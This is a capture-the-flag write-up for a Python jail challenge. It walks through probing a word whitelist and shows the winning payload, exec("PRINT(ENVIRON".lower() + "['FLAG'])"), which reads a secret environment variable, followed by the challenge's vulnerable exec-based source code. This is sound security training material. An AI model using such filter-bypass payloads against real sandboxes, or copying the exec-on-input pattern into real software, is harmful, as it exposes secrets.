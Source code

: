 # Case Sensitivity
You step into a constricted floor where every movement and operation is limited. Commands are few, space is tight, and options are restricted.

A guardian looms over the floor, its body shifting like liquid metal, enforcing these constraints. It watches your every move, daring you to make do with what you have and uncover the passcode to the next floor despite the restrictions.

## How I solved
When you connect to the nc you get:
```
Ha, I bet you can't find what "FLAG" is in this shitty python interpreter.
What could you possibly even do here?

>>>
```
The word "FLAG" is an immediately hint

Trying basic commands give us this:
```
>>> cat flag
cat flag

ERROR:
Traceback (most recent call last):
  File "/chall", line 23, in <module>
    exec('from os import *; ' + clean(user_input))
                                ^^^^^^^^^^^^^^^^^
  File "/chall", line 15, in clean
    raise ValueError(f"NUH UH, {word} is not allowed!{although}")
ValueError: NUH UH, cat is not allowed!
```
This helps in realising that it is a Pyjail with a Whitelist

Trying basic commands like print we get:
```
>>> print
print

ERROR:
Traceback (most recent call last):
  File "/chall", line 23, in <module>
    exec('from os import *; ' + clean(user_input))
                                ^^^^^^^^^^^^^^^^^
  File "/chall", line 15, in clean
    raise ValueError(f"NUH UH, {word} is not allowed!{although}")
ValueError: NUH UH, print is not allowed! (although print is very close)
```
We got ValueError: NUH UH, print is not allowed! (although print is very close), which means that we're doing something right.

Also this line => exec('from os import *; ' + clean(user_input)), we can see that something is being imported, combining that with our knowledge of "FLAG", we know that it is an environment variable.

Trying environ also gives us:
```
>>> environ
environ

ERROR:
Traceback (most recent call last):
  File "/chall", line 23, in <module>
    exec('from os import *; ' + clean(user_input))
                                ^^^^^^^^^^^^^^^^^
  File "/chall", line 15, in clean
    raise ValueError(f"NUH UH, {word} is not allowed!{although}")
ValueError: NUH UH, environ is not allowed! (although environ is very close)
```
By now we know that the whitelist will have something related to environ,FLAG and print.

Trying more commands we can figure out that exec also works:
```
>>> exec
exec
```
So now we know that whitelist=["FLAG","exec",somethingrelatedto(print),somethingrelatedto(environ),...,...]

Seeing this and the fact that the challenge is called Case Sensitivity, the challenger will try:
```
>>> PRINT
PRINT

ERROR:
Traceback (most recent call last):
  File "/chall", line 23, in <module>
    exec('from os import *; ' + clean(user_input))
  File "<string>", line 1, in <module>
NameError: name 'PRINT' is not defined

>>> ENVIRON
ENVIRON

ERROR:
Traceback (most recent call last):
  File "/chall", line 23, in <module>
    exec('from os import *; ' + clean(user_input))
  File "<string>", line 1, in <module>
NameError: name 'ENVIRON' is not defined
```
now looking that the output we can see that it is NameError: name 'XXXX' is not defined and not ValueError: NUH UH, 'XXXX' is not allowed!

So now we know that : `whitelist=["FLAG","exec",PRINT,ENVIRON,...,...]`

So now we have to figure out how we can use `exec` to craft a payload that somehow gives us the ENVIRON variable `"FLAG"`.

Using this knowlenge the challenger will figures out the word : lower.

So the final whitelist will become: `whitelist = ["PRINT", "ENVIRON", "FLAG", "lower", 'exec']`

Now it's just a matter of making the payload, the challenger can either do : exec("PRINT(ENVIRON".lower() + "['FLAG'])") or exec("PRINT(ENVIRON".lower() + ")")

Final Exploit:
```
Ha, I bet you can't find what "FLAG" is in this shitty python interpreter.
What could you possibly even do here?

>>> exec("PRINT(ENVIRON".lower() + "['FLAG'])")
exec("PRINT(ENVIRON".lower() + "['FLAG'])")
citadel{d34th_d035_n07_fr33_y0u_fr0m_7h3_gu17ar15t}
```
Flag: `citadel{d34th_d035_n07_fr33_y0u_fr0m_7h3_gu17ar15t}`

To understand how this works you can look behind the hood:
```
import traceback
import re
import sys
sys.stderr = sys.stdout

allowed_words = ["PRINT", "ENVIRON", "FLAG", "lower", 'exec']

def clean(code):
    words = re.findall(r'\b[A-Za-z_][A-Za-z0-9_]*\b', code)
    although = ''
    for word in words:
        if word not in allowed_words:
            if word.upper() in allowed_words:
                although = f" (although {word} is very close)"
            raise ValueError(f"NUH UH, {word} is not allowed!{although}")
    return code

print("Ha, I bet you can't find what \"FLAG\" is in this shitty python interpreter.\nWhat could you possibly even do here?\n")

while True:
    try:
        user_input = input(">>> ")
        exec('from os import *; ' + clean(user_input))
    except Exception as e:
        print("\nERROR: ")
        traceback.print_exception(e)
        print()
```
